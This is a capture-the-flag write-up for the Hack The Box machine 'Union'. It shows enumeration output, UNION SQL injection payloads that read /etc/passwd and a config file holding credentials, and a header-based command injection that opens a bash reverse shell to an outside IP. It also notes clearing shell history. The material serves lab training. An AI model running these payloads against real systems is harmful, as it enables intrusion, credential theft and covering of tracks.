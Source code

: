 # HTB: Union

## Engagement Overview
**Target:** Union  
**Box IP:** 10.10.11.128  

---

### Objectives
- Enumerate services and web endpoints
- Identify SQL Injection vulnerability
- Extract credentials and escalate to SSH access
- Investigate privilege escalation paths
- Retrieve system flags

---

## Service Enumeration

**Nmap Results:**
```bash
nmap -sV -sC -oA nmap/union 10.10.11.128

Nmap scan report for 10.10.11.128
Host is up (0.045s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

**Gobuster Findings:**
```bash
/index.php           (Status: 200) [Size: 1220]
/config.php          (Status: 200) [Size: 0]
/challenge.php       (Status: 200) [Size: 772]
/firewall.php        (Status: 200) [Size: 13]
/.htaccess           (Status: 403)
/.htpasswd           (Status: 403)
```

---

## Methodologies

1. **Web Enumeration** using Gobuster and manual browsing.  
2. **SQL Injection Testing** – manually crafted UNION statements due to SQLMap filters.  
3. **Source Code Review** – extracted credentials from exposed `config.php`.  
4. **Authentication Bypass** – replayed crafted requests (see PoC).  
5. **Post-Exploitation** – leveraged command injection via manipulated `X-FORWARDED-FOR` header.  

---

## Initial Access

**Vulnerability Explanation:**  
The target web application was vulnerable to SQL Injection. SQLMap was filtered, requiring manual UNION statements to extract database contents and read sensitive files.

**SQL Injection Payloads:**

```sql
# curl -s -X POST http://10.10.11.128 -d "player='

-- Dump flag
union select group_concat(one) from flag;-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Dump players table
union select group_concat(player) from players;-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read OS release info
union select load_file('/etc/lsb-release');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read /etc/passwd
union select load_file('/etc/passwd');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo

-- Read PHP config file (contains MySQL creds)
union select load_file('/var/www/html/config.php');-- -" \
  | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
```

**HTTP Request (flag.req):**

```http
POST /index.php HTTP/1.1
Host: 10.10.11.128
Content-Length: 12
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=mvi1jq6khbq7p2lh16hs7dntgm

player=union
```

**Penetration:**  
- Crafted UNION SQL statements to retrieve the flag and configuration data.  
- Extracted MySQL credentials from `config.php`.  
- Authenticated to the web application with extracted creds.  
- Application logic enabled SSH (via iptables) upon successful authentication.  

**SSH Access:**  
Logged in successfully using MySQL credentials.  

---

## Privilege Escalation

After gaining shell access, source code analysis revealed the application used an IP whitelisting function based on the `X-FORWARDED-FOR` header.  
This input was unsanitized and allowed direct **command injection**.  

By forging the header with injected commands, root shell access was obtained.  

```bash
# Burp Repeater

GET /firewall.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.128/challenge.php
Connection: close
Cookie: PHPSESSID=orpc54gjbbmaih8loabi2ru7bi
Upgrade-Insecure-Requests: 1
X-FORWARDED-FOR: 1.1.1.1; bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1";
```

---

## House Cleaning

- Removed enumeration artifacts.  
- Cleared shell history.  
- Left no residual processes or altered configurations.  

---

## Post-Exploitation

**Tools Utilized**  
- `nmap`  
- `gobuster`  
- Burp Suite (for request replay)  
- Manual SQL Injection (UNION)  
- SSH  

**Key Takeaways**  
- SQLMap filters can be bypassed by manual UNION-based injection.  
- Configuration files (`config.php`) often expose credentials.  
- Application logic enabling SSH through iptables demonstrates chained exploitation.  
- Blindly trusting headers (`X-FORWARDED-FOR`) introduces critical injection vectors.  
